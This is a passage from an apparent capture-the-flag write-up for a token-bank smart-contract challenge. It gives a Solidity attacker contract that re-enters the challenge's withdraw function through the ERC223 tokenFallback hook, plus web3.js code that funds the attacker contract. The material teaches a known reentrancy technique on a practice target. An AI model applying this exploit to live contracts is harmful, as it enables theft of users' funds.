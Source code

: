 ```solidity
    bool called;
    bool enabled;

    constructor(ISimpleERC223Token _tokenContract, ITokenBankChallenge _challengeContract) {
        tokenContract = _tokenContract;
        challengeContract = _challengeContract;
    }

    function enable() public {
        require(tokenContract.transfer(address(challengeContract), 500000 * 10**18) == true);
        enabled = true;
    }

    function attack() public {
        challengeContract.withdraw(500000 * 10**18);
    }

     function tokenFallback(address from, uint256 value, bytes memory data) external {
         if (enabled == true && called == false) {
             called = true;
             attack();
         }
     }
}
```

Deploy that contract by giving it the address of the challenge contract and token contract as aparameter.
We can now send our personal balance to that adversarial contract :


```js
const challengeContract = "0xD8Fe917280D25DF9550F6C94ad395399CCD8e59B";
const adversarialContract = "0x023499f69eAe122cc81fFDC75818Bf317Ff2eCA9";
const tokenContract = "0x" + (await web3.eth.getStorageAt(challengeContract, 0)).slice(-40);

const data = web3.eth.abi.encodeFunctionCall(
  {
    name: "transfer",
    type: "function",
    inputs: [
      { type: "address", name: "to" },
      { type: "uint256", name: "amount" },
    ],
  },
  [adversarialContract, "500000000000000000000000"]
);

await web3.eth.sendTransaction({
  from: accounts[0],
  to: tokenContract,
  data: data,
})
```
